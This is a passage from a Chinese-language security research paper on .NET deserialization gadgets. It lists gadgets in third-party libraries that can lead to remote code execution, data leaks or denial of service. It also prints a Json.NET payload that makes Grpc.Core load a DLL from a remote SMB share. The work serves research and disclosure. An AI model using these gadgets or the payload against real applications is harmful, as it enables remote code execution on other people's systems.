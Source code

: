 当看到庞大的反序列化类型黑名单时，请不要放弃。我建议执行以下操作：

-   仔细研究此列表。确保它包含所有已知的小工具。如果发现缺失或列表中有错误（如拼写错误），深入研究可用于反序列化目标的小工具。
-   研究目标序列化器的功能：
    -   在目标产品代码库中寻找潜在的反序列化小工具，从直接的 RCE 小工具到允许操作产品功能的小工具。
    -   在产品使用的第三方库中寻找潜在的反序列化小工具（请参见下一章）。

### 2 反序列化小工具在第三方库中

我已经展示了在产品代码库中可能找到的反序列化小工具。虽然 `.NET Framework` 实现了多个可能用于滥用反序列化的类，但这已经是一个常见的知识点，供应商正在进行调整。

我决定快速查看几个流行的 .NET 第三方库（其中一些也适用于 .NET 5）。在其中我找到了一些有趣的反序列化小工具，在研究中可能会有用。以下表格呈现了这些小工具。

| **Library** | **Gadget(s) name** | **Effect** | **Brief description** |
| --- | --- | --- | --- |
| Grpc Core | UnmanagedLibrary | RCE | Remote (SMB) or local native DLL loading |
| Xunit Runner Utility | Xunit1Executor | RCE | Remote (SMB) or local mixed/special DLL loading |
| MongoDB Libmongocrypt | WindowsLibrary  <br>LinuxLibrary  <br>DarwinLibraryLoader | RCE | Remote (SMB) or local  <br>native DLL loading |
| Xunit Execution | PreserveWorkingFolder | Depends on  <br>application, may  <br>lead to RCE | Allows to modify a current  <br>directory for the process.  <br>Allows to abuse file  <br>operations based on  <br>relative paths. |
| Microsoft Azure  <br>Cosmos | QueryPartitionProvider | Serializes given  <br>object with  <br>Json.NET, leads to  <br>RCE when chained | Allows to serialize given  <br>object with Json.NET. May  <br>be chained for RCE or other  <br>effects. Will be described in  <br>a different chapter. |
| Microsoft  <br>Application Insights | FileDiagnosticsTelemetryModule | Environment  <br>variable leak +  <br>potential DoS | Allows to leak environment  <br>variable through SMB.  <br>If process runs as SYSTEM,  <br>may lead to DoS through  <br>directory creation17. |
| NLOG | CountingSingleProcessFileAppender  <br>SingleProcessFileAppender  <br>MutextMultiProcessFileAppender | Potential DoS | If process runs as SYSTEM,  <br>may lead to DoS through  <br>directory/file creation. |
| Google Apis | FileDataStore | Potential DoS | If process runs as SYSTEM,  <br>may lead to DoS through  <br>directory creation. |

表1：第三方库中的反序列化小工具

以下子章节详细描述了这些小工具。

#### 2.1 Grpc.Core – UnmanagedLibrary 远程 DLL 加载

目标类：`Grpc.Core.Internal.UnmanagedLibrary`

适用（序列化器）：`Json.NET`、`XamlReader`、`MessagePack` 及可能其他序列化器。

适用（.NET）：.NET Framework 和 .NET>= 5

最新测试版本：2.46.6

效果：对于 Windows - 通过远程（SMB）DLL 加载或本地 DLL 加载实现远程代码执行（需要与文件写入原语链相结合）。对于 Linux/Mac - 本地 DLL 加载。

小工具（Json.NET）：

```plain
{ 
    "$type":"Grpc.Core.Internal.UnmanagedLibrary, Grpc.Core, Version=2.0.0.0,  
Culture=neutral, PublicKeyToken=d754f35622e28bad", 
    "libraryPathAlternatives":["\\\\192.168.1.100\\poc\\native.dll"] 
}
```

代码段 35 Grpc.Core UnmanagedLibrary gadget

描述： `Grpc.Core.Internal.UnmanagedLibrary` 类实现了一个公共构造函数，该构造函数接受一个字符串数组作为输入。
